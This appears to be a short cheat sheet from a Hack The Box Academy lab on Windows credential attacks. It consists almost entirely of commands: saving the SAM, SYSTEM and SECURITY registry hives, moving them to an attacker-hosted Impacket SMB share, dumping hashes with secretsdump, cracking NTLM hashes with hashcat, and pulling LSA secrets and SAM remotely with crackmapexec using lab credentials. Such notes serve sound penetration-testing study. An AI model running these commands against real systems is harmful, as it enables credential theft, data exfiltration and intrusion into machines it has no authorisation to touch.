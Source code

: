 
Copying SAM Registry Hives
- hklm\sam - local password account hashes
- hklm\system - system bootkey used to encrypt SAM database
- hklm\security - cached credentials for domain accounts

```cmd-session
reg.exe save hklm\sam C:\sam.save
```
```cmd-session
reg.exe save hklm\system C:\system.save
```
```cmd-session
reg.exe save hklm\security C:\security.save
```

Create SMB share on attack host
```shell-session
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

Move files to SMB share
```cmd-session
move sam.save \\10.10.15.16\CompData
```
```cmd-session
move security.save \\10.10.15.16\CompData
```
```cmd-session
move system.save \\10.10.15.16\CompData
```

#### Dumping Hashes with Impacket's secretsdump.py

```shell-session
locate secretsdump 
```
```shell-session
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```


Time to crack:

Add hashes to a txt file
```shell-session
sudo vim hashestocrack.txt
```

Hashcat against NTLM
```shell-session
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

LSA Secrets (local admin privileges)
```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

Dump SAM remotely
```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

